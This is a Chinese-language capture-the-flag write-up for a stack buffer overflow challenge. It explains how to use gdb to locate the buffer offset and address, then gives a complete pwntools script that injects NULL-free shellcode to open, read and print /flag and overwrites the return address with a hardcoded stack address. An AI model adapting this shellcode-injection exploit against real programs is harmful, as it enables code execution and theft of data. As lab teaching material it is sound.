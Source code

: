 # 挑战简介
```
这道题的的难度将不再是前面所有的题可以比拟的,如果说前面的题仅仅看IDA便可得知,那么这道题,将带你完完全全理解栈这个东西
```

# 思路
做了有两天,这道题的内核非常简单,只不过你要对gdb有特别熟练的应用  
首先,说操作流程,
- 你要从easy给你的那个栈视图入手,你要做的,无非就两件事:第一,找到buffer偏移量.第二:找到buffer的初始位置.
- 第一个无需多言,重点是第二个
- 你需要知道buffer初始的rsp的位置,固定的是rsp+0x20,我无法从IDA中查询rsp的位置,或许我不会操作
- 因此,我必须要用gdb,调试鼻祖

让我们看一下操作,有以下几个关键操作
- display/8gx $rsp:显示rsp的栈位置,以及存储的Data,8可以是任意数,这道题越大越好,最好20以上,以便理清rsp的具体情况
- display/8i $rip:显示执行中的语句,8同上
- 以上两种调试方法是动态的
- 设置几个关键断点,我这里是read,challenge函数,执行到read的时候,注重观察rsp的情况,你会发现,其实和easy题展示给你的栈视图是差不多的
- 一定要从初始ni开始走,不要jump,和c语言的道理一样,不要jump,因为jump总会错过一些重要语句
- 目前还是遇到了一个不理解的情况,在我没有栈溢出的时候,buffer从0x00007fffffffce90开始,但是栈溢出后,却从0x00007fffffffceb0开始了,和easy一样,额外加了0x20

以上就是gdb的具体操作  

以下  
```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)
p = process('/challenge/binary-exploitation-hijack-to-shellcode')

#nop_sled_length = 0x900

#nop_sled = asm('nop') * nop_sled_length

shellcode = asm('''
    xor rax, rax                      # 清理rax
    push rax                          # 将0压入栈顶，代替NULL字节
    mov rbx, 0x67616c662f6a6a6a           # 将'/flag'分成两部分，避免NULL字节
    shr rbx, 24                        # 对齐
    push rbx                          # 推入栈
    mov rdi, rsp                      # rsp指向flag, 替代rdi
    xor rsi, rsi                      # 清理rsi
    xor rdx, rdx                      # 清理rdx
    mov al, 2                         # 执行打开指令 (使用al代替rax避免NULL字节)
    syscall                           # open('/flag', O_RDONLY)

    mov rdi, rax                      # 文件描述符
    mov rsi, rsp                      # 移动缓冲区进栈
    mov dl, 100                       # 读取的字节数 (使用dl代替rdx避免NULL字节)
    xor rax, rax                      # 执行读取指令
    syscall                           # read(fd, buffer, 0x100)

    mov dil, 1                        # 输出描述符 (使用edi代替rdi避免NULL字节)
    mov al, 1                         # 执行写入 (使用al代替rax避免NULL字节)
    syscall                           # write(stdout, buffer, 0x100)

''')

# 构建payload
#payload_o = nop_sled + shellcode

#payload = payload_o.ljust(0x1000, b'\x90')  # 填充剩余空间为NOP指令
print(len(shellcode))

p.recvuntil('Send your payload (up to 4096 bytes)!\n')

win_address = p64(0x00007fffffffceb0)

p.send(shellcode + b'\x00' * 0x14 + win_address)

output = p.recvall()
print(output.decode(errors='ignore'))
```

这道综合题还是非常有趣的,那么...  
**完结撒花**


